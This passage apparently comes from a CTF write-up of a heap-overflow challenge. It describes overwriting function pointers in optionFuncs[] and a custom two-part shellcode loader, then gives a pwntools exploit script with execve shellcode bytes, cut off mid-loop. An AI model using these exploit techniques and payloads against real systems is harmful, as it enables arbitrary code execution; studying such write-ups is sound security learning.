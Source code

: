 The optionFuncs[] array elements are also stored in the heap, so the heap overflow could be leveraged to overwrite the function pointers and control the execution flow.

The tricky thing here is that, between notes[0] or notes[1] and optionFuncs[] there are the heap main arena pointers, and overwriting those pointers would corrupt the heap and crash the program at the next malloc(). Adding a dummy note first, would cause the next call to getline() to store user input between main arena pointers and optionFuncs[].

## Shellcode loader
The last roadblock to getting a shell is to write a shellcode and jump to it.

The optionFuncs[0], optionFuncs[1] and optionFuncs[2] pointers could be overwriten with the shellcode and optionFuncs[3] with the shellcode base address (optionFuncs[0]). Then it would be easy to write a 24 bytes shellcode and jump to it. But that address is not valid because its first byte is a null byte, so optionFuncs[3] would have to be overwritten with the optionFuncs[0]+1 memory address. And what is worse, the smallest Linux x86_64 shellcode I know has 27 bytes.

Given that scenario, the best solution that came to my mind was to build a custom assembly loader that writes the shellcode two by two bytes at an arbitrary memory address within the optionFuncs memory page with RWX permissions. The loader has to be split into 2 parts not bigger than 15 bytes since optionFuncs[2] would be overwritten with optionFuncs[0]+1 memory address and optionFuncs[4] would not be modified to let us overwrite optionFuncs as many times as necessary:
1. **The first part** loads in R12 the target address (starting at optionFuncs[0]+20 memory address and increasing it by two)
2. **The second part** writes two shellcode bytes to the R12 address.

## Exploit
Here is a sum up of the exploit and the exploit source code:
1. Add dummy note
2. Leak VBA
3. Call allowFunctionsExec()
4. Load shellcode
5. Jump to shellcode

```python
from pwn import *

SHELLCODE = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
SHELLCODE += b"\x90"

def overwrite_optionFuncs(new_optionFuncs):
    payload = b"A"*0x8f0                    # padding
    payload += new_optionFuncs              # bytes to overwrite optionFuncs[]
    payload += b"A"*(0x7fff-len(payload))   # padding
    s.sendlineafter(b"> \n", b"4")
    s.sendlineafter(b"> \n", b"-1")
    s.sendlineafter(b"> \n", payload)

def loader():
    for i in range(len(SHELLCODE)//2):
        # Store address to write in r12
        loader = b"\x4C\x8D\x25\x99\x08\x01\x01"    # lea    r12,[rip+0x1010899]
        loader += b"\x49\x81\xEC"                   # sub    r12,0x10108?? (part 1)
        loader += (0x81-i*2).to_bytes()             # sub    r12,0x10108?? (part 2)
        loader += b"\x08\x01\x01"                   # sub    r12,0x10108?? (part 3)
        loader += b"\xc3"                           # ret
        loader += b"\x90"*(15-len(loader))          # padding
        new_optionFuncs = b"\xff" + loader  # optionFuncs[0] & optionFuncs[1]
        new_optionFuncs += p64(mprotect+1)  # optionFuncs[2]
        overwrite_optionFuncs(new_optionFuncs)
        s.sendlineafter(b"> \n", b"3")      # run loader

        # Write 2 shellcode bytes in [r12] and [r12+1]
```